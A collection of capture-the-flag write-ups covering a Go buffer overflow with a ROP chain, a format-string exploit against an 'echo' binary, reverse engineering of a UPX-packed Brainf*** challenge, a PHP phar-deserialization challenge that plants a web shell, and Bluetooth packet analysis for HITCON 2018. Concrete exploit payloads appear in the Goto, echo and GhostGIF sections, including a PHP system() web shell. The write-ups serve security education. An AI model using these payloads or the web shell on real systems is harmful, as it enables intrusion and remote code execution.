

## Goto

### Tools
- GDB (with [```peda```](https://github.com/longld/peda))
- Python 2.7 (with [```pwntools```](https://github.com/Gallopsled/pwntools))
- [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

### Steps
- Step 0x00
First, this is a Go binary file, and the main function is in `main.main`. Because the program has two input functions, I tried to do the buffer overflow first. However, it showed the error:

- Step 0x01
Now we have some clues. First, from the first line of the error message, `hex(4707177784827586320)=0x415341416f422710`, we concluded that here must be a reasonable value of buffer size.

With the help of `pattc`, the calculated padding size is `149`.
However, there is another one. By inspecting the manual page of Go language, the function `slicebytetostring` has argument which is the pointer to the buffer as I highlighted in the screenshot above. `0x41416d4141514141` represented as `AAQAAmAA` with little-endian.

So my payload is `'A' * 136 + (pointer_to_buf) + (buf_size)`
- Step 0x02
After step 0x01, we are able to re-write the return address without error.

With `pattc` again, I calculated the padding size is `176` here.
- Step 0x03
Here I wanted to use ROP chain to get the shell. The conditions are `rax = 0x3b`, `rdi = address to ""/bin/sh"`, `rsi = 0`, `rdx = 0`, and invoke `syscall`.

Since the `rsi` and `rdx` is already zero, and `rax` is `(buf_size) + 0x20`, where `(buf_size)` is explained in step 0x01. So my `buf_size = 0x3b - 0x20 = 0x1b`
Therefore, I planned to do the ROP chain as the following table shows.

| Stack address | Content |
| -------- | -------- |
| `0xc420047f80`     | gadget to `pop rdi; ret`     |
| `0xc420047f88`     | `0xc420047f98`    |
| `0xc420047f90`     | gadget to `syscall; ret`   |
| `0xc420047f98`     | '/bin/sh'   |

Fortunately, the gadgets are easy to find since this is a Go binary. 




And the ROP chain is now:
| Stack address | Content |
| -------- | -------- |
| `0xc420047f80`     | `0x42ed2d` |
| `0xc420047f88`     | `0xc420047f98`    |
| `0xc420047f90`     | `0x44f609`   |
| `0xc420047f98`     | '/bin/sh'   |
Note that in the script, I use `p64()` to handle the addresses.
- Step 0x04
Now, I am able to get the shell in the local side:

However, when I was trying to exploit buffer overflow in the remote, it was unsuccessful.
By doing some research, I realized that the base of stack address is not a fixed value. It varies from OS to OS. Because my ROP chain contains a pointer to a stack address, which stores the text `/bin/sh`, I have to find the according stack address in the remote side.
- Step 0x05
With a *quick and dirty* solution, I found the correct stack address by using `for` loop and trial and error.

Note that I only tried 256 different combinations, from `0xc420000f98` to `0xc4200fff98`.
- Step 0x06
Finally, the buffer overflow and ROP chain worked, and I got the flag.

My payload is `"A" * 136 + p64(0xc420047da0) + p64(0x1b) + "B" * 176 + p64(0x42ed2d) + p64(0xc42003ff98) + p64(0x44f609) + p64(0x732f2f2f6e69622f) + p64(0x68)`.


## echo

### Tools
- GDB (with [```peda```](https://github.com/longld/peda))
- Python 2.7 (with [```pwntools```](https://github.com/Gallopsled/pwntools))
- [one_gadget](https://github.com/david942j/one_gadget)
- IDA Pro

### Steps
- **Step 0x00**
We have a binary and a `libc` file. First, run the binary, and it `echoes` our inputs until we type `exit`. However, when I run the process remotely via `telnet`, I cannot get any output unless typing `exit`. I inspect the binary file with *IDA Pro*, and found that the texts echoed from the program are directed to `stderr` (`fd = 2`)

- **Step 0x01**
If we want to use `fmt` to exploit remotely, we have to alter this value from `2` to `1`. I found the address of this variable is `0x601010`:

However, we are not sure that this section is writable or not. So I use `gdb` and `vmmap` to see the permission of each section.

Fortunately, `0x601010` is located in writable section as the screenshot shows.
- **Step 0x02**
To know the parameters that we can use with `printf` and `%n`, I set the breakpoint on `0x40077b`, where `dprintf` is called.

I used `gdb` again, and the following picture indicates the parameters on the stack. The parameters from $5^{th}$ start at `$rsp`.

For example, the $10^{th}$ parameter is `0x7ffff7a05b97`. Note that this is *the pointer* pointed to `libc_start_main`, which we will use to *leak* `libc_base` later.

- **Step 0x03**

I found that the $18^{th}$ parameter points to the address of the $37^{th}$ parameter. From the `vmmap`, we know that the `stack` is writable. I will use these two address to alter the `fd` of the `dprintf`:
    - Because `0x601010` = 6295568, my payload is `%6295568c%18$n`.
    - After sending that, I made my script to sleep 5 seconds, in order to make sure the printing process in remote side is properly done.
    - Finally, the $37^{th}$ parameter is changed into `0x601010`, and I used `%1c%37$hhn` to *overwrite* the file descriptor from `2` to `1`, which is `stdout`.
- **Step 0x04**
Now we can focus on getting the shell. Here we have some clues:
    1. From `vmmap` and the address of `libc_start_main` ($10^{th}$ parameter) , we can calculate the `offset` to the `libc_base`. Take the screenshots above for example, the offset is `0x7ffff7a05b97` - `0x7ffff79e4000` = **`0x21b97`**, which is a fixed value regardless of the randomization of the base.
    2. With `one_gadget`, we have three candidates as the following snapshot shows.

    3. Because of the constraints, I choose `0x10a38c` as my *gadget*. Therefore the address of the gadget is `address of (libc_start_main+231)` - `0x21b97` + `0x10a38c`
- **Step 0x05**
Because x64 address is `8 bytes`, and we are restricted to write as large as `4 bytes` at each input via `%n`, we have to split our inputs into small pieces via `%hn` and `%hhn`.

My strategies are:
    1. Make $7^{th}$ point to $12^{nd}$ via `%232c%5$hhn` because `0xe8 = 232`.
    2. Make $12^{nd}$ point to $10^{th}$ via `%216c%7$hhn` because `0xd8 = 216`.
    3. Make $10^{th}$ point to address of `one_gadget` via 
        - `%(gadget_addr % 0x10000)c%12$hn`, and
        - `%((gadget_addr >> 0x10)% 0x10000)c%12$hn` after `%218c%7$hhn`.
- **Step 0x06**
Therefore, after the echo ends, the process will not `ret` to `libc_start_main`. Instead, it will go to our `one_gadget`, and we are able to *get the shell* and the flag as well.
In my script, I *restored* $7^{th}$ parameter into the initial value to avoid *segmentation fault* when the stack *pops*.



## simplebox

### Tools
- [UBX](https://upx.github.io)
- GDB (with [```peda```](https://github.com/longld/peda))
- Python 2.7

### Steps
- Step 0x00
First, by inspecting the disasmembled code, we know that the binary file is packed with `UPX`.

Fortunately, we can decompress it without a hassle by using `UPX -d` option.

- Step 0x01
I used `GDB` to run the binary step by step. When the process is at `0x401978`, there are interesting strings in `RDI` as the following screenshot shows.

This string ends at `0x4c6ae0`:

- Step 0x03
By experience and intuition, I guessed this string is something to do with the flag since I cannot find the output `Try hard!` in the binary file. Therefore, I *dumped* this string to a file for convenience.

- Step 0x04

Interestingly, the string consists of only eight types of characters, which is `m`, `B`, `O`, `F`, `a`, `b`, `x`, and `o`. Moreover, I counted the number of each letter, and the result are shown below:

- Step 0x05
Note that the number of letter `F` and `x` are same, so I did some research of finding a programming language that is consists of eight commands (letters) and two of them have to be same amount. Surprisingly, I found a language called [`Brainf***`](https://en.wikipedia.org/wiki/Brainfuck), which satisfies all the conditions above. However, Brainf*** uses different ASCII characters from ours. Therefore, we have to *translate* ours to the correct format.
- Step 0x06

By doing some analysis and trail-and-error, I made this mapping table. Note that `,` and `.` stand for `input` and `output`, respectively. Therefore, it makes sense that `,` and `.` are mostly located in the beginning and ending section, respectively. The full Brainf*** code is in `brainf***_input`. Now we are able to find the flag inside it. For that, we need to know how Brainf*** works. Take the following section for example, `++++++++[>++++++++++<-]>+++++`.
    - `[` `]` means a while loop, and it breaks when the current pointer equals to zero
    - `>` means to increase the pointer
    - `+` means to increase the byte in the current pointer
    - Assume the initial value of current pointer is zero, and by the rules shown above, we are able to calculate the final value, that is, `10` * `8` + `5` = `85`, which represents `U` in ASCII code.
- Step 0x07



## GhostGIF

### Tools
- Firefox with `hackbar`
- `php`
- base64

### Steps
- **Step 0x00**
First, the source code is provided. There are `_GET` actions such as `upload`, `getsize`, `modify`, and `delete` which can be used.
There is a `php` class named `FileManager`, which comes up with some *magic functions*.
- **Step 0x01**
We knew that the `php` magic functions will be invoked after specific actions are called. For example, `__destruct()` will be invoked when the object is being destroyed.
Moreover, with `phar://` protocol, the metadata inside will be unserialized. With these two ideas, we can come up with a workflow, which is shown below, to exploit and do the RCE (remote code execution).



- **Step 0x02**

    - The function `__destruct()` in class `FileManager` is    vulnerable becuase when it is called and the `mode` is `upload`, we can upload everything with arbitrary extension other than `.gif`. To do the RCE, this is essential. For example, we can upload a `php` file with `system` function inside via this vulnerability.
    - However, if we use the `_GET` action to `upload`, the file name is always ended with `.gif`. How can we change the mode into `upload` in the class besides using `_GET`?
    - The thing is, we are able to create a `phar`, and pack a php class named `FileManager`, with the following setups:
        -  `mode` is set to `upload`
        -  `name` is the path to upload our php file, and
        - `content` is `<?php system(\$_GET[1]); ?>`.
    - In my script, the `nmae` to the evil php is `/var/www/html/uploads/r07922014.php`.
    - The script for creating phar is located at `code/newPhar.php`
        - Before running the `php` script, we should set `phar.readonly` to `Off` in `php.ini`.
- **Step 0x03**
After concatenating GIF magic number (`GIF89a`) with the phar file we created, we can upload the *fake GIF* to the server with Hackbar, and get the file path:

    1. Use the `base64` in command line to encode our GIF file
    
        

    2. Use Firefox with Hackbar to send the upload request. Note that we should set `action[0]` instead of `action`.

        

    3. Copy the uploaded GIF url.
    
    4. Now, when we call `getsize`, `__destruct()` would be called after the `getsize` ended, and our evil php file named `r07922014.php` will be upload. Note that the protocol should be `phar`, in order to unserialize the metadata, which contains our `FileManager` class.

        

- **Step 0x04**
    1. Now, we are able to do RCE by calling our evil `php` and set `1` to the system command we want to call:

    2. I found a file named `fl49` in the root directory:

    3. *Whoa!* Here is the flag.



## HITCON CTF 2018

### EV3 Basic
This challenge came with one `.jpg` and `.pklg` files.
1. First, I used steganography detection packages (`zsteg` for example) to inspect the `.jpg` file. Unfortunately, there was nothing with steganography in this challenge. However, there is some characters on the LEGO EV3 screen: `hitcon{ ...1... d...  a...  e... }`. This probably has something to do with the flag.
2. The `.pklg` file is the record file from the `WireShark`. 

After reading the contents briefly, this is the log of the connection between the computer (Macbook Pro here) and the LEGO V3 via bluetooth.
3. Moreover, I sorted the logs based on the protocol, and from No. 196, there are `RFCOMM` (Radio frequency communication) packages. According to the information from Internet, I thought there might be the contents shown on LEGO V3 screen in `RFCOMM` packages.
4. After scrolling through every package, I found something interesting. There is a character `h` in package No. 289.

In package No. 299, there is another character, `i`, in it.

The difference between these two packages are at the addresses `0x16` and `0x1A`. The latter one is the ASCII of `h` and `i`. The former one might be the **offset** of the address where the character shown on the screen. The package No. 289 has `0x0A` at address `0x16`, and the package No. 299 has `0x14` at the same address. Since `0x14 - 0x0A = 0x0A`, I guess there is another packag with `0x14 + 0x0A = 0x1E` at the same address.
5. To verify whether my guess is correct or not, I tried to find another package whose `0x16` (that is, `frame[22]`) is `0x1E`:

*Whoa!* I found it! In addition, the character (at `0x1A`) is `t`, which it exactly what I expected to find, because the flag starts with `hitcon{...}` according to the `.jpg` file.
6. Strangely, there are total *four* packages whose `0x16` is `0x1E`; if I set the filter to `frame[22]`28` there is nothing shown. Instead, after `0x1E` offset, we have to set `frame[23]` due to some carry bits or something else:

There are also four packages. The value at `0x19` alters, and this might be another offset.
7. Based on the `.jpg` file, I concluded that there are a *horizontal* offset and a *vertical* offset, and by setting `frame[22]` (or `frame[23]`) to a specific value (ex: `0x28` shown in above image), we have four packages in the same *row*, whose vertical offset in at `0x19` (`frame[25]`).

9. After that, we are able to draw a table to illustrate my conclusion and based on the packages we've found:



- The first column is the value at `frame[25]`, whereas the first row is the value at  `frame[22]` or `frame[23]`.
